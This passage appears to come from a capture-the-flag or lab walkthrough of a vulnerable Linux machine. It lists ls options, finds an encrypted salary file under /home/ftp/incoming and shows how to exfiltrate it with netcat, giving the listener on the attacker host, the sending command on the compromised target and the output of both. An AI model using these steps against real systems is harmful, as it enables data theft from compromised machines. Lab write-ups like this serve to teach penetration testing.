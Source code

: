 - l - show the results in a list format which displays permissions and ownership
- s - display the size of the file
- a - display all files and directories, including hidden files and folders (files and folders starting with a .)
- R - go through all folders recursively and list their contents too
- h - make the file sizes human readable rather than in block format (4KB, 2GB etc)
- S - sort by file size

I'm not going to paste the entire outputs of both commands due to size, but the following excerpt from enumerating the /home/ directory should show something interesting:

	/home/ftp/incoming:
	total 140K
	140K -r-xr-xr-x 1 root root 130K Jun 29  2007 salary_dec2003.csv.enc
	   0 dr-xr-xr-x 2 root root   80 Jun 29  2007 .
	   0 drwx------ 3 root root   60 Jun 29  2007 ..

What's this? An encrypted file? It is likely that this is the sort of treasure we are looking for. Let's use netcat to transfer the file of of the machine. To do this we need to create a listener on our machine and pipe the traffic from the input into a file:

	root@kali ~$ nc -lvvp 4444 > salary_dec2003.csv.enc

A quick run down of this command:

- l - State that we are going to be listening
- vv - Show extra verbosity
- p - We are going to supply a port for listening
- 4444 - This is the port will be listening on

Back on the ssh session of the target machine we are going to transfer the file through netcat to the listening port on our local machine:

	root@slax:/home/aadams# cd /home/ftp/incoming/
	root@slax:/home/ftp/incoming# nc -nvv 192.168.1.141 4444 < salary_dec2003.csv.enc

Be aware that netcat will not tell you once the file has finished transferring. It is a good idea to open another shell and do ls -ls salary_dec2004.csv.enc to check when the file has stopped increasing in size. Here is the output from both of the netcat commands:

On target system:

	root@slax:/home/aadams# cd /home/ftp/incoming/
	root@slax:/home/ftp/incoming# nc -nvv 192.168.1.141 4444 < salary_dec2003.csv.enc 
	(UNKNOWN) [192.168.1.141] 4444 (krb524) open
	 sent 133056, rcvd 0

On local system:

	root@kali ~$ nc -lvvp 4444 > salary_dec2003.csv.enc                                                                             
	listening on [any] 4444 ...
	192.168.1.100: inverse host lookup failed: Unknown server error : Connection timed out
	connect to [192.168.1.141] from (UNKNOWN) [192.168.1.100] 45972
	 sent 0, rcvd 133056

Great we have the file, let's check to see if it's actually an encrypted file. We can use the file command on linux to try and identify it.
